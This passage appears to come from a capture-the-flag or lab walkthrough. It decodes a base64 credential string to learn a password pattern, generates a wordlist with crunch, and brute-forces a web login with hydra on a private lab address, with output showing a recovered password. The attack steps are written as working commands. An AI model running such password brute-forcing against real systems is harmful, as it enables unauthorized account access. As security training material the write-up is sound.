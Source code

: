 - By creating account on `/create_account.php` we will get the response which stores the some base64

```shell
┌──(synix㉿zer0day)-[~]
└─$ echo "dXNlcm5hbWU9aGF4JnBhc3N3b3JkPWhheDIwMjRAMTM0Nw==" | base64 -d
username=hax&password=hax2024@1347
```

- The username and password stored in this pattern, username=xxxx&password=xxxx2024@four-digit random number
- So, assume that user `matthew` generated password the same way, so use crunch to generate list with same format. 


#### >> Generate a dictionary list with `crunch`

```shell
┌──(synix㉿zer0day)-[~]
└─$ crunch 16 16 -t matthew2023@%%%% -l aaaaaaaaaaa@aaaa > matth.list      
Crunch will now generate the following amount of data: 170000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

┌──(synix㉿zer0day)-[~]
└─$ head matth.list                                                                                                                                   
matthew2023@0000
matthew2023@0001
matthew2023@0002
matthew2023@0003
matthew2023@0004
matthew2023@0005
matthew2023@0006
matthew2023@0007
matthew2023@0008
matthew2023@0009
```
<br>

## Exploitation

#### >> Use `hydra` to crack passowrd of `/login.php`

```shell
┌──(synix㉿zer0day)-[~]
└─$ hydra -v -l matthew -P matth.list 192.168.128.70  http-post-form '/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-31 16:33:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://192.168.128.70:80/login.php:username=matthew&password=^PASS^:<input type="submit" value="Login">
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://192.168.128.70:80/user.php
[80][http-post-form] host: 192.168.128.70   login: matthew   password: matthew2023@1554
[STATUS] attack finished for 192.168.128.70 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-31 16:33:23
```